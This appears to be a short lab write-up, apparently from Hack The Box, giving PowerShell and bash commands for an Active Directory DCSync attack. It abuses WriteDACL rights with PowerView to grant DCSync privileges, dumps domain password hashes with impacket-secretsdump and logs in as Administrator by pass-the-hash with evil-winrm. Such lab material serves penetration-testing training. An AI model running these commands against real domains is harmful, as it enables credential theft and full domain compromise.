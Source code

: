 # **Domains: Perform a DCSync Attack**

**Scenario:**  
You have `WriteDACL` on the domain object. Use it to grant yourself `DCSync` rights.
![Pasted image 20250501172244](https://github.com/user-attachments/assets/2161dfe3-908e-4c76-b72a-82c412583f84)
We owned SVC account and we are member of `Exchange Windows Permissions` that has a `WriteDacl` ACL on on the Domain.
Steps (On target Powershell)
**Steps:**

1. **Import PowerView**  
   ```powershell
   import-module .\powerview.ps1
   ```

2. **Set Up Credentials**  
   ```powershell
   $pass = convertto-securestring 'abc123!' -asplain -force
   $cred = new-object system.management.automation.pscredential('htb\MG', $pass)
   ```

3. **Modify DACL to Grant DCSync Rights**  
   Use `Add-DomainObjectAcl` to grant your account the `DCSync` privilege:
   ```powershell
   Add-DomainObjectAcl -TargetIdentity "testlab.local" -Rights DCSync -PrincipalIdentity MG -Credential $cred
   ```
   - **Why:** This enables your account to request replication data, including password hashes, from the domain.

4. **Perform the DCSync Attack**  
### Extract Secrets and Access Administrator

1. **Dump Secrets Using the New User**  
   Use `impacket-secretsdump` to extract secrets from the domain:
   ```bash
   impacket-secretsdump htb/MG@$IP
   ```

2. **Use the Administrator Hash to Gain Access**  
   Use `evil-winrm` to log in as `Administrator` with the extracted hash:
   ```bash
   evil-winrm -i $IP -u Administrator -H "32693b11e6aa90eb43d32c72a07ceea6"
   ```

